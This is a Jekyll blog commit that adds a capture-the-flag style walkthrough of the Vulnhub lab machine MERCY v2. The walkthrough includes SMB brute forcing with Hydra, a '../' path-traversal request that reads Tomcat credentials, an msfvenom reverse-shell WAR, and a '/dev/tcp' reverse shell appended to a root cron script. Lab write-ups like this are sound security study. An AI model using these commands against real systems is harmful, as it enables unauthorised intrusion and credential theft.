

Before and after one commit to 0xordinaryday/blog, a Jekyll site: the page built from hacking/index.html, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
update config, add mercy

```diff
--- a/_config.yml
+++ b/_config.yml
@@ -22,7 +22,7 @@
 email: "david@gibbons.digital"
 description: "Thoughts from behind the keyboard."
 baseurl: "/" # the subpath of your site, e.g. /blog
-url: "http://gibbons.digital" # the base hostname & protocol for your site, e.g. http://example.com
+url: "http://blog.gibbons.digital" # the base hostname & protocol for your site, e.g. http://example.com
 twitter_username: "0x7B9"
 github_username:  "0xordinaryday"
 
--- /dev/null
+++ b/hacking/_posts/2020-12-21-mercy.md
@@ -0,0 +1,251 @@
+---
+layout: post
+title:  "Vulnhub - DIGITALWORLD.LOCAL: MERCY V2"
+date:   2020-12-21 22:00:00 +1100
+category: hacking
+---
+
+## Introduction
+*MERCY is a machine dedicated to Offensive Security for the PWK course, and to a great friend of mine who was there to share my sufferance with me. :-)
+MERCY is a name-play on some aspects of the PWK course. It is NOT a hint for the box.
+Note: Some report a kernel privilege escalation works on this machine. If it does, try harder! There is another vector that you should try!*
+
+This box is on the [NetSecFocus Admin list](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0) of OSCP-like machines. It's [MERCY](https://www.vulnhub.com/entry/digitalworldlocal-mercy-v2,263/) from vulnhub.
+
+## Ports
+We have quite a few ports:
+
+1. 22/tcp   filtered ssh
+2. 53/tcp   open     domain
+3. 80/tcp   filtered http
+4. 110/tcp  open     pop3
+5. 139/tcp  open     netbios-ssn
+6. 143/tcp  open     imap
+7. 445/tcp  open     microsoft-ds
+8. 993/tcp  open     imaps
+9. 995/tcp  open     pop3s
+10. 8080/tcp open     http-proxy
+
+So; SSH (filtered), DNS, HTTP (filtered), mail with SSL, SMB and another HTTP port. Whew!
+
+## 8080
+Port 8080 is running Apache Tomcat 7, but it's just the front page - we have no creds. There is a robots.txt pointing to:
+
+>http://192.168.1.169:8080/tryharder/tryharder
+
+Here we find some base64 encoded text that decodes to a message warning about weak passwords, and specifically mentioning "password".
+
+We'll come back to Tomcat later.
+
+## SMB
+I didn't do this whole thing without hints. Maybe 50% of it. I've been taking the attitude if I'm not getting anywhere after some time then get a hint; hopefully it will produce some learning rather than making me lazy. I'm not doing this for imaginary internet points.
+
+Anyway; SMB. I could see the shares with *smbclient* and *smbmap*:
+
+{% highlight shell %}
+root@kali:/opt/vulnhub/mercy# smbclient -L //192.168.1.169
+smbclient -L //192.168.1.169
+Enter WORKGROUP\roots password:
+
+        Sharename       Type      Comment
+        ---------       ----      -------
+        print$          Disk      Printer Drivers
+        qiu             Disk
+        IPC$            IPC       IPC Service (MERCY server (Samba, Ubuntu))
+SMB1 disabled -- no workgroup available
+root@kali:/opt/vulnhub/mercy# smbmap -u '' -H 192.168.1.169
+smbmap -u '' -H 192.168.1.169
+[+] Guest session       IP: 192.168.1.169:445   Name: 192.168.1.169
+        Disk                                                    Permissions     Comment
+        ----                                                    -----------     -------
+        print$                                                  NO ACCESS       Printer Drivers
+        qiu                                                     NO ACCESS
+        IPC$                                                    NO ACCESS       IPC Service (MERCY server (Samba, Ubuntu))
+root@kali:/opt/vulnhub/mercy#
+{% endhighlight %}
+
+But I couldn't log in without any creds. While I had used it before, I didn't think to try *enum4linux*. But that's what we need to do:
+
+``
+root@kali:/opt/vulnhub/mercy# enum4linux  192.168.1.169
+``
+
+With that, we get some users:
+
+{% highlight shell %}
+S-1-22-1-1000 Unix User\pleadformercy (Local User)
+S-1-22-1-1001 Unix User\qiu (Local User)
+S-1-22-1-1002 Unix User\thisisasuperduperlonguser (Local User)
+S-1-22-1-1003 Unix User\fluffy (Local User)
+{% endhighlight %}
+
+## SMB, logged in
+I tried running my users against POP, SMB and the http basic authentication on Tomcat with Hydra but wasn't getting anywhere. I checked a hint and the SMB password for user *qiu* was literally *password*; this should have broken almost immediately. And in fact this does work with other wordlists:
+
+{% highlight shell %}
+root@kali:/opt/vulnhub/mercy# hydra -L users -P /usr/share/seclists/Passwords/probable-v2-top207.txt smb://192.168.1.169
+Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
+
+Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-21 06:24:35
+[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
+[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
+[DATA] max 1 task per 1 server, overall 1 task, 621 login tries (l:3/p:207), ~621 tries per task
+[DATA] attacking smb://192.168.1.169:445/
+[445][smb] host: 192.168.1.169   login: qiu   password: password
+1 of 1 target successfully completed, 1 valid password found
+{% endhighlight %}
+
+I have no idea why it didn't work with *rockyou*.
+
+Anyway; we find a config file, partially reproduced here:
+
+{% highlight shell %}
+root@kali:/opt/vulnhub/mercy/opensesame# cat config
+Here are settings for your perusal.
+
+Port Knocking Daemon Configuration
+
+[options]
+        UseSyslog
+
+[openHTTP]
+        sequence    = 159,27391,4
+        seq_timeout = 100
+        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 80 -j ACCEPT
+        tcpflags    = syn
+{% endhighlight %}
+
+So we have port knocking enabled, and now we know the sequence.
+
+## Knock knock
+I didn't have *knock* installed on this box, so I installed it, ran it and then ran nmap again to see if we had an open HTTP port - success!
+
+{% highlight shell %}
+root@kali:/opt/vulnhub/mercy# apt install knockd
+Reading package lists... Done
+Building dependency tree
+Reading state information... Done
+The following NEW packages will be installed:
+  knockd
+0 upgraded, 1 newly installed, 0 to remove and 142 not upgraded.
+Need to get 25.8 kB of archives.
+After this operation, 104 kB of additional disk space will be used.
+Get:1 http://kali.download/kali kali-rolling/main amd64 knockd amd64 0.7-1+b1 [25.8 kB]
+Fetched 25.8 kB in 3s (8,248 B/s)
+Selecting previously unselected package knockd.
+(Reading database ... 292737 files and directories currently installed.)
+Preparing to unpack .../knockd_0.7-1+b1_amd64.deb ...
+Unpacking knockd (0.7-1+b1) ...
+Setting up knockd (0.7-1+b1) ...
+update-rc.d: We have no instructions for the knockd init script.
+update-rc.d: It looks like a network service, we disable it.
+Processing triggers for man-db (2.9.3-2) ...
+Processing triggers for kali-menu (2021.1.1) ...
+root@kali:/opt/vulnhub/mercy# knock 192.168.1.169 159 27391 4 -d 100
+root@kali:/opt/vulnhub/mercy# nmap 192.168.1.169
+Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-21 04:01 EST
+Nmap scan report for 192.168.1.169
+Host is up (0.0036s latency).
+Not shown: 990 closed ports
+PORT     STATE    SERVICE
+22/tcp   filtered ssh
+53/tcp   open     domain
+80/tcp   open     http
+*SNIP*
+{% endhighlight %}
+
+## HTTP
+On the website we can find *robots.txt* which shows us */mercy* and */nomercy*. At */nomercy* with find an install of RIPS 0.53, which searchsploit tells us has *Multiple Local File Inclusions*.
+
+It didn't take me long to figure out this was the way to find out Tomcat credentials:
+
+``
+http://192.168.1.169/nomercy/windows/code.php?file=../../../../../../etc/tomcat7/tomcat-users.xml
+``
+
+This was quite similar to Tabby from HTB.
+
+{% highlight xml %}
+<role rolename="admin-gui"/>
+<role rolename="manager-gui"/>
+<user username="thisisasuperduperlonguser" password="heartbreakisinevitable" roles="admin-gui,manager-gui"/>
+<user username="fluffy" password="freakishfluffybunny" roles="none"/>
+{% endhighlight %}
+
+So then we could login to Tomcat as *thisisasuperduperlonguser*.
+
+## Tomcat
+With the Tomcat GUI we could upload a WAR file:
+
+``
+root@kali:/opt/vulnhub/mercy# msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.150 LPORT=1234 -f war > shell.war
+``
+
+And then we had a shell.
+
+## Fluffy
+Since we already had a password for Fluffy, we should try it:
+
+{% highlight shell %}
+uid=116(tomcat7) gid=126(tomcat7) groups=126(tomcat7)
+python -c 'import pty;pty.spawn("/bin/bash");'
+tomcat7@MERCY:/var/lib/tomcat7$ su fluffy
+su fluffy
+Password: freakishfluffybunny
+
+$ python -c 'import pty;pty.spawn("/bin/bash");'
+python -c 'import pty;pty.spawn("/bin/bash");'
+fluffy@MERCY:/var/lib/tomcat7$ cd /home/fluffy
+{% endhighlight %}
+
+Once we're there we find a script which is running on a cron as root; that's not obvious. What is (or should be) obvious is that we can edit it:
+
+{% highlight shell %}
+fluffy@MERCY:~/.private/secrets$ ls -lash
+ls -lash
+total 20K
+4.0K drwxr-xr-x 2 fluffy fluffy 4.0K Nov 20  2018 .
+4.0K drwxr-xr-x 3 fluffy fluffy 4.0K Nov 20  2018 ..
+4.0K -rwxr-xr-x 1 fluffy fluffy   37 Nov 20  2018 backup.save
+4.0K -rw-r--r-- 1 fluffy fluffy   12 Nov 20  2018 .secrets
+4.0K -rwxrwxrwx 1 root   root    222 Nov 20  2018 timeclock
+{% endhighlight %}
+
+``
+fluffy@MERCY:~/.private/secrets$ printf 'bash -i >& /dev/tcp/192.168.1.150/1235 0>&1\n' >> timeclock
+``
+
+Now it's wait for a shell:
+
+{% highlight shell %}
+root@kali:/opt/vulnhub/mercy# nc -nvlp 1235
+listening on [any] 1235 ...
+connect to [192.168.1.150] from (UNKNOWN) [192.168.1.169] 51992
+bash: cannot set terminal process group (24445): Inappropriate ioctl for device
+bash: no job control in this shell
+root@MERCY:~# ls -lash
+ls -lash
+total 56K
+4.0K drwx------  3 root root 4.0K Sep  1  2018 .
+4.0K drwxr-xr-x 21 root root 4.0K Aug 27  2018 ..
+4.0K drwx------  2 root root 4.0K Aug 24  2018 .aptitude
+4.0K ----------  1 root root 1.3K Sep  1  2018 author-secret.txt
+4.0K -rw-------  1 root root  204 Nov 20  2018 .bash_history
+4.0K -rw-r--r--  1 root root 3.1K Feb 20  2014 .bashrc
+ 20K -rw-r--r--  1 qiu  qiu   18K Dec 21 18:55 config
+4.0K -rw-r--r--  1 root root  140 Feb 20  2014 .profile
+4.0K ----------  1 root root   38 Aug 25  2018 proof.txt
+4.0K -rw-r--r--  1 root root   66 Aug 26  2018 .selected_editor
+root@MERCY:~# cat pro
+cat proof.txt
+Congratulations on rooting MERCY. :-)
+{% endhighlight %}
+
+BOOM.
+
+## Epilogue
+Learnings:
+
+1. If SMB, run *enum4linux*
+2. Use a short password list *first*, don't go straight to rockyou
+3. Look at file permissions closely
```
